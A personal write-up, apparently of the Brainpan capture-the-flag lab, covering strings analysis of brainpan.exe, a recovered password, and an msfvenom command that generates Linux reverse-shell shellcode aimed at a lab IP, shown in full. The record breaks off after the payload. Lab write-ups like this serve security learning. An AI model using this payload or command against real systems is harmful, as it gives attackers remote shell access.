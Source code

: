 -----------------
END_TIME: Fri May 19 19:28:02 2017
DOWNLOADED: 4612 - FOUND: 2
root@kali:~/brainpan#

Browsing to http://192.168.118.185/bin has an executable, brainpan.exe.

I'll bite, lets see what strings can tell us.

root@kali:~/brainpan# strings brainpan.exe
!This program cannot be run in DOS mode.
.text
`
[^_]
[get_reply] s = [%s]
[get_reply] copied %d bytes to buffer
shitstorm
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|
[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              
                          >>
                          ACCESS DENIED
                          ACCESS GRANTED
[+] initializing winsock...
[!] winsock init failed: %d
done.
[!] could not create socket: %d
[+] server socket created.
[!] bind failed: %d
[+] bind done on port %d
[+] waiting for connections.
[+] received connection.
[+] check is %d
[!] accept failed: %d
[+] cleaning up.

It looks like shitstorm is the password, but I still get ACCESS DENIED.

I cheated and looked up a walkthough....I was on the right track, even had the right password.

https://www.mogozobo.com/?p=2324

msfencode has been replaced, so i changed the command.

root@kali:~/brainpan# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.118.180 LPORT=443 -f python
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of python file: 342 bytes
buf =  ""
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
buf += "\xa8\x76\xb4\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73"
buf += "\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"

